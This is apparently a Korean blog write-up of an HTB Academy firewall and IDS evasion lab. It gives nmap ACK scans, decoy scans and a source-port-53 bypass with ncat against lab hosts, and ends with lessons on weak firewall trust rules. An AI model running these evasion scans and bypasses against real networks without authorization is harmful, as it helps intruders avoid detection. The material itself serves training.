


## 개요


HTB Academy Firewall and IDS/IPS Evasion 모듈의 Hard Lab이다. 목표는 하나다.

- **방화벽에 필터링된 포트에서 플래그 획득**

사용한 주요 기법:
- ACK 스캔(`-sA`)으로 방화벽 필터링 상태 분석
- 디코이 스캔(`-D RND:N`)으로 IDS 탐지 우회
- `status.php`로 IDS 알림 카운트 모니터링
- 소스포트 53 우회(`ncat --source-port 53`)

---

## 1. 초기 정찰 — IDS 제한 확인

### status.php로 IDS 알림 카운트 확인

가장 먼저 해야 할 일은 환경의 제약 조건을 파악하는 것이다. 대상 서버의 80번 포트에서 `status.php`를 통해 IDS 알림 카운트를 확인할 수 있다.



```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ curl -s http://10.129.2.47/status.php
Recorded alerts:         9
/ 75 alerts

┌──(netzy㉿kali)-[~]
└─$ curl -s http://10.129.2.47/status.php
Recorded alerts:         11
/ 75 alerts
```

알림이 2씩 증가하는 걸 알 수 있다. curl 요청 자체에도 2가 소모되고 있으며, **최대 75개**라는 제한이 있다. 무작정 전체 포트 스캔(`-p-`)을 때리면 순식간에 알림이 가득 차서 차단당한다.

이 제약 조건 때문에 이후 모든 스캔은 신중하게 진행해야 한다:
- 포트를 한두 개씩 조심스럽게 확인
- 디코이(`-D RND:N`)로 IDS 탐지 분산
- 꼭 필요한 스캔만 실행

### 개별 포트 확인

IDS 제한을 인지했으니, 포트를 하나씩 찔러보는 방식으로 시작한다. 먼저 22번 포트를 대상으로 서비스 버전을 확인한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~/nmap/easy]
└─$ sudo nmap -p 22 -Pn --open -n -sV -sC version -v 10.129.2.47
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-28 15:25 +0900

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 71:c1:89:90:7f:fd:4f:60:e0:54:f3:85:e6:35:6c:2b (RSA)
|   256 e1:8e:53:18:42:af:2a:de:c0:12:1e:2e:54:06:4f:70 (ECDSA)
|_  256 1a:cc:ac:d4:94:5c:d6:1d:71:e7:39:de:14:27:3c:3c (ED25519)
```

버전 확인은 가능했지만 플래그는 없다. 53번 포트도 확인한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~/nmap/easy]
└─$ sudo nmap -sA 10.129.2.47 -p 53 -Pn -n -sV --script version --source-port=53 -sU

PORT   STATE    SERVICE VERSION
53/tcp filtered domain
53/udp closed   domain
```

53번 포트 자체는 열려있지 않다. source-port=53으로 접근해도 filtered 상태다.

---

## 2. 방화벽 분석 — ACK 스캔

`-sA` ACK 스캔과 `--source-port=53`을 조합해 상위 30개 포트의 방화벽 상태를 분석한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~/nmap/easy]
└─$ sudo nmap -sA 10.129.2.47 --top-ports=30 -Pn -n -sV --script version --source-port=53 -vv

PORT     STATE      SERVICE        REASON       VERSION
21/tcp   unfiltered ftp            reset ttl 63
22/tcp   unfiltered ssh            reset ttl 63
23/tcp   unfiltered telnet         reset ttl 63
25/tcp   filtered   smtp           no-response
53/tcp   filtered   domain         no-response
80/tcp   unfiltered http           reset ttl 63
110/tcp  filtered   pop3           no-response
111/tcp  filtered   rpcbind        no-response
139/tcp  filtered   netbios-ssn    no-response
143/tcp  filtered   imap           no-response
443/tcp  filtered   https          no-response
445/tcp  filtered   microsoft-ds   no-response
1025/tcp unfiltered NFS-or-IIS     reset ttl 63
3306/tcp unfiltered mysql          reset ttl 63
3389/tcp unfiltered ms-wbt-server  reset ttl 63
5900/tcp unfiltered vnc            reset ttl 63
8080/tcp unfiltered http-proxy     reset ttl 63
```

ACK 스캔에서의 상태 해석:
- **unfiltered** → RST 패킷이 돌아옴 → 방화벽이 차단하지 않음 (단, 서비스가 실제로 열려있는지는 별개)
- **filtered** → 응답 없음 → 방화벽이 패킷을 차단 중

unfiltered 포트들(21, 22, 23, 80, 3389 등)은 방화벽 통과는 되지만 RST만 돌아오므로, 실제로 서비스가 listening하고 있는지는 별도 확인이 필요하다.

---

## 3. 열린 포트 식별 — 디코이 스캔

`-sA` 결과만으로는 실제 오픈 포트를 알 수 없다. 디코이(`-D RND:10`)를 붙여 SYN 스캔으로 상위 10개 포트를 확인한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ nmap --top-ports 10 10.129.2.47 -D RND:10

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   open   http
110/tcp  open   pop3
139/tcp  open   netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```

오픈 포트: **22, 80, 110, 139, 445**. 이어서 버전 스캔을 실행한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ nmap -p 22,80,110,139,445 10.129.2.47 -D RND:10 -sV

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

플래그가 이 포트들에는 없다. 더 깊이 파야 한다.

---

## 4. 전체 포트 스캔 — 포트 50000 발견

기본 오픈 포트에서는 플래그를 찾을 수 없었다. 이제 전체 포트를 뒤져야 하는데, 앞서 확인한 IDS 알림 제한(75개)이 문제다. 디코이를 최대한 많이 붙여서 탐지를 분산시킨다.

디코이 100개를 붙인 SYN + 버전 전체 포트 스캔을 실행한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ sudo nmap -sS -sV -p- -D RND:100 10.129.45.42

PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http        Apache httpd 2.4.29 ((Ubuntu))
110/tcp   open     pop3        Dovecot pop3d
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open     imap        Dovecot imapd (Ubuntu)
445/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
50000/tcp filtered ibm-db2
Service Info: Host: NIX-NMAP-HARD; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**포트 50000** — `filtered` 상태. 방화벽이 막고 있다.

---

## 5. 플래그 획득 — 소스포트 53 우회

방화벽이 소스포트 53(DNS)에서 오는 트래픽을 신뢰하도록 설정되어 있을 가능성이 높다. `ncat`으로 소스포트를 53으로 지정해 포트 50000에 직접 연결한다.

```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ ncat -nv --source-port 53 10.129.45.42 50000
Ncat: Version 7.98 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.45.42:50000.
220 HTB{kjnsdf2n982n1827eh76238s98di1w6}
```

연결 수립 5초 후, 플래그가 출력된다.

---

## 6. 공격 흐름 요약

```
status.php → IDS 알림 카운트 75개 제한 확인 → 신중한 스캔 전략 수립
    ↓
개별 포트 확인 (22, 53) → 플래그 없음
    ↓
ACK 스캔 (-sA, source-port=53) → unfiltered/filtered 상태 분류
    ↓
디코이 스캔 (-D RND:10, top 10) → 오픈 포트 식별 (22, 80, 110, 139, 445)
    ↓
버전 스캔 → 서비스 정보 수집, 플래그 없음
    ↓
전체 포트 스캔 (-sS -sV -p- -D RND:100) → 포트 50000 filtered 발견
    ↓
ncat --source-port 53 → 포트 50000 방화벽 우회 성공
    ↓
플래그 획득
```

---

## 7. 배운 점

- **ACK 스캔의 unfiltered/filtered 해석**: unfiltered는 RST가 돌아온 것으로, 방화벽이 막지 않는다는 뜻이다. 실제 포트 오픈 여부와는 다르다. filtered는 응답이 없어 방화벽이 차단 중임을 의미한다.
- **디코이(-D RND:N)의 한계**: 디코이는 공격자 IP를 숨기는 데 효과적이지만, IDS 알림 자체를 막지는 못한다. 스캔 패턴이 탐지되면 알림이 쌓인다.
- **소스포트 신뢰 규칙의 위험성**: 방화벽이 소스포트 53을 무조건 신뢰하면, `ncat --source-port 53`만으로 filtered 포트를 뚫을 수 있다. DNS 트래픽 허용 규칙이 이런 식으로 악용될 수 있다.
- **IDS 알림 카운트 활용**: `status.php` 같은 모니터링 엔드포인트가 노출되어 있으면, 공격자가 자신의 탐지 여부를 실시간으로 확인하며 스캔 강도를 조절할 수 있다.
